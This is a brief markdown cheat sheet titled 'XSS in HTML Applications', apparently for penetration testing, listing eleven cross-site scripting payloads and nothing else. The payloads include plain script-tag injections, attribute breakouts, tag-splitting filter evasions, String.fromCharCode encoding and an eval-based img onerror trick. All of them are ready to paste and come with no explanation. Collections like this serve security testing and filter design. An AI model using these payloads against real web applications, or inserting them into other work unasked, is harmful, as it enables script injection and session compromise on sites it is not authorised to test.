 # XSS in HTML Applications

- `<script>alert('XSS')</script>`
- `<scr<script>ipt>alert('XSS')</scr<script>ipt>`
- `"><script>alert("XSS")</script>`
- `"><script>alert(String.fromCharCode(88,83,83))</script>`
- `<img src=x onerror=alert('XSS');>`
- `<img src=x onerror=alert('XSS')//`
- `<img src=x onerror=alert(String.fromCharCode(88,83,83));>`
- `<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>`
- `<img src=x:alert(alt) onerror=eval(src) alt=xss>`
- `"><img src=x onerror=alert("XSS");>`
- `"><img src=x onerror=alert(String.fromCharCode(88,83,83));>`